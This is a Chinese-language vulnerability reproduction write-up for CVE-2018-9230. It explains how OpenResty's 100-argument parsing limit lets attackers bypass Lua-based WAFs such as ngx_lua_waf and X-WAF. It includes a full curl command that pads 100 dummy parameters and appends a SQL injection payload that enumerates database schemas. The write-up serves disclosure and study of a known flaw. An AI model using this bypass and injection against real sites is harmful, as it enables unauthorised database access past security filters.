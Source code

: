 （CVE-2018-9230）bypass OpenResty waf
=====================================

一、漏洞简介
------------

OpenResty是一款基于Nginx和Lua的Web平台。该平台用于搭建用于处理高并发、高扩展性的动态Web应用、Web服务和动态网关。OpenResty1.13.6.1之前的版本中存在安全漏洞，该漏洞源于程序使用`ngx.req.get_uri_args`和`ngx.req.get_post_args`函数接受参数的数量可以超过100个。远程攻击者可利用该漏洞绕过访问限制，干预Web应用程序防火墙(ngx\_lua\_waf或X-WAF)产品。

二、漏洞影响
------------

OpenResty \< 1.13.6.1

三、复现过程
------------

漏洞分析
--------

### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri
有两个方法：`ngx.req.get_uri_args`、`ngx.req.get_post_args`，二者主要的区别是参数来源有区别，`ngx.req.get_uri_args`获取
uri 请求参数，`ngx.req.get_post_args`获取来自 post 请求内容。

**测试用例：**

    server {
    listen 80;
    server_name localhost;

    location /test {
    content_by_lua_block {
    local arg = ngx.req.get_uri_args()
    for k,v in pairs(arg) do
    ngx.say(“[GET ] key:”, k, “ v:”, v)
    end
    ngx.req.read_body()
    local arg = ngx.req.get_post_args()
    for k,v in pairs(arg) do
    ngx.say(“[POST] key:”, k, “ v:”, v)
    end
    }
    }
    }

**输出测试：**

![1.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId26.png)

### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![2.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId28.png)

这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10\*10,共100参数，然后第101个参数添加SQL注入
Payload，我们来看看会发生什么？

测试用例：`curl 'www.0-sec.org/test?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata`

**输出结果：**

![3.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId30.png)

可以看到，使用`ngx.req.get_uri_args`获取uri
请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![4.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId31.png)

使用`ngx.req.get_post_args`
获取的post请求内容，也同样只获取前100个参数。

检查这两个函数的文档，出于安全原因默认的限制是100，它们接受一个可选参数，最多可以告诉它应该解析多少GET
/
POST参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于OpenResty的安全防护，这就存在一个uri参数溢出的问题。

综上，通过`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于OpenResty的WEB安全防护。

漏洞复现
--------

基于OpenResty构造的WEB安全防护，大多数使用`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，即默认限制100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。基于OpenResty的开源WAF如：ngx\_lua\_waf、X-WAF、Openstar等，均受影响。

### A、ngx\_lua\_waf

ngx\_lua\_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx\_lua\_waf

**拦截效果图：**

![5.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId34.png)

**利用参数溢出Bypass：**![6.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId35.png)

### B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：[https://waf.xsec.io](https://waf.xsec.io/)

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![7.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId38.png)

**利用参数溢出Bypass：**

![8.png](./resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId39.png)

参考链接
--------

> https://www.anquanke.com/post/id/103771
